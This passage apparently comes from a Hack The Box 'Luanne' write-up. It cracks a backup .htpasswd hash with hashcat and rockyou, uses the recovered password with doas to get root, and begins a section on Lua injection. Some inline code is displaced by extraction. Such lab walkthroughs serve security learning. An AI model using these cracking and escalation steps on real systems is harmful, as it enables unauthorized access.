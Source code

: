     luanne$ file /tmp/0xdf.tar.gz
    /tmp/0xdf.tar.gz: gzip compressed data, last modified: Tue Nov 24 09:18:51 2020, from Unix, original size modulo 2^32 12288
    

### Backup Analysis

The file decompresses to contain familiar files at this point:

    luanne$ tar zxvf 0xdf.tar.gz
    x devel-2020-09-16/
    x devel-2020-09-16/www/
    x devel-2020-09-16/webapi/
    x devel-2020-09-16/webapi/weather.lua
    x devel-2020-09-16/www/index.html
    x devel-2020-09-16/www/.htpasswd
    

`weather.lua` is exactly the same as the public version. is also similar. The file is different:`index.html``.htpasswd`

    luanne$ cat devel-2020-09-16/www/.htpasswd
    webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
    

It breaks the same way (), this time to the password .`hashcat -m 500 htpasswd2 --user /usr/share/wordlists/rockyou.txt``littlebear`

### doas sh

Now with a potential password, I can try to as root, and it works:`doas`

    luanne$ doas sh
    Password:
    # id
    uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
    

And I can grab the root flag:

    # cat root.txt
    7a9b5c20************************
    

## Beyond Root - Lua Injection

### Code Overview

I pretty much a noob at Lua, so of course I knew I wanted to understand how this script worked, and how I could inject into it, comparing the [vulnerable version](https://0xdf.gitlab.io/files/htb-luanne-weather.lua) to the [patched](https://0xdf.gitlab.io/files/htb-luanne-weather-dev.lua).

The general structure of the program looks like:
